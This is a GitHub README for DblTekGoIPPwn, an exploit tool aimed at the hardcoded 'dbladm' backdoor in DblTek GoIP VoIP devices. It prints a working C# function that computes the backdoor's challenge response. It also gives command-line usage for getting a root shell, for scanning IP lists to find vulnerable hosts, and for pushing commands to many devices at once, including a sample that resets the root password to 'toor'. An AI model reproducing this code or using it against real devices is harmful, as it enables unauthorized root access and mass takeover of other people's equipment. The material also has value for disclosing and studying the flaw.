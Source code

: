 # DblTekGoIPPwn

Tool to exploit challenge response system in vulnerable DblTek GoIP devices. Can generate responses to
specified challenges, test hosts for the vulnerability, run commands on vulnerable hosts, and drop
into a root shell on any vulnerable host.

## The Vulnerability

On March 2nd, 2017, Trustwave released a vulnerability that security researchers found in the DblTek
GoIP VoIP Phone. The vulnerability was a backdoor in the firmware for an account named 'dbladm'. When
a user entered this as their username in a telnet prompt, the system would present a challenge that when
followed with the right response, gave the user a root shell on the system.

The problem with such a challenge response system is that the devices are as secure as the algorithm for
generating the responses, which was reverse engineered from firmware binaries provided by DblTek. Using this
algorithm, a root shell can be aquired on ANY DblTek GoIP device.

Original Article: https://www.trustwave.com/Resources/SpiderLabs-Blog/Undocumented-Backdoor-Account-in-DBLTek-GoIP/

Using the description of the backdoor provided in the article, I was able to write what I believe to be
some of the first exploit code for this vulnerability. The core of this is of course the algorithm to
generate the response based on a given challenge. Here is a function to do this written in C#.

```C#
static string ComputeResponse(string challengeStr)
{
    int challenge = Convert.ToInt32(challengeStr.Substring(1)); // Get just the number after 'N'.

    string modified = (challenge + 20139 + (challenge >> 3)).ToString(); // Perform some dummy 1337 operations.

    byte[] buffer = new byte[64];
    // Copy the string into the first part of the buffer.
    for (int i = 0; i < modified.Length; i++)
        buffer[i] = (byte)modified[i];

    var md5 = MD5.Create();
    byte[] hash = md5.ComputeHash(buffer); // Calculate the MD5 of the buffer.

    StringBuilder sb = new StringBuilder(); // Will hold the results.
    // Take the unpadded hex value of the first six bytes of the MD5.
    for (int i = 0; i < 6; i++)
        sb.Append(hash[i].ToString("x"));

    return sb.ToString(); // Profit
}
```

## DblTekGoIPPwn Command Line Interface (CLI)

When DblTekPwn is ran without arguments, the help is displayed. This is the output:

```
USAGE: DblTekPwn.exe [MODE] [HOSTS] [OUTPUT]

[MODE]:
-c --compute-response [CHALLENGE]         Computes a response to the given challenge.
-r --root-shell                           Starts a root shell with the vulnerable host.
-s --send-commands    [COMMAND_FILE]      Sends commands from a file to vulnerable hosts.
-t --test                                 Tests hosts and determines if they are vulnerable.
-h --help                                 Displays this help and exits.

[HOSTS]:
-n --name             [IP]                Specifies a single IP address.
-f --file             [IP_FILE]           Specifies a file with IP\nIP\nIP.

[OUTPUT]:
-o --output           [OUTPUT_FILE]       Specifies an output file. Default stdin.
```

## Examples

### Getting a Root Shell on a Vulnerable System

DblTekGoIPPwn makes it easy to simply get a root shell on any vulnerable system. Simply run the
following command using the vulnerable IP.

```
DblTekPwn.exe --root-shell --name 192.168.1.1
```

You will see output that looks like this:
```
Password: ***********

```

From here you can simply begin entering commands (there is no shell prompt).

### Calculating a Challenge Response

Say you simply wanted to calculate the response to a GoIP challenge ```N1746203308```. Simply
run the following command.

```
DblTekPwn --compute-response N1746203308
```

The output will be the response:
```
d6176d3aab2
```

### Checking a List of IPs

Say you wished to check ```list.txt``` of IPs for GoIPs that are vulnerable and send this output
to ```results.txt```. First make sure that the IPs are in format ```ip:port``` (port is default 23)
and that the IPs are seperated by a newline ```\n```. The following command could then be ran.

```
DblTekPwn.exe --test --file list.txt --output results.txt
```

list.txt:
```
192.168.1.0
192.168.1.1
192.168.1.2:1337
192.168.1.3
192.168.1.4:2323
```

results.txt:
```
192.168.1.0 False
192.168.1.1 True
192.168.1.2:1337 True
192.168.1.3 False
192.168.1.4:2323 False
```

The ```False``` or ```True``` after the host indicates whether or not the IP is vulnerable.

### Sending Commands to a List of IPs

Say you had a list of commands (which is really a list of telnet inputs) in ```cmds.txt```
to send to ```list.txt``` of IPs and send the output to ```results.txt```. First make sure
that the IPs are in format ```ip:port``` (port is default 23) and that BOTH the IPs AND commands
are seperated by a newline ```\n``` in their respective files. The following command could then
be ran.

```
DblTekPwn.exe --send-commands cmds.txt --file list.txt --output results.txt
```

list.txt:
```
192.168.1.0
192.168.1.1
192.168.1.2:1337
192.168.1.3
192.168.1.4:2323
```

cmds.txt:
```
passwd root
toor
toor

exit
```

results.txt:
```
192.168.1.0 False
192.168.1.1 True
192.168.1.2:1337 True
192.168.1.3 False
192.168.1.4:2323 False
```

The ```False``` or ```True``` after the host indicates whether or not the connection was successfully
made and the commands delivered.
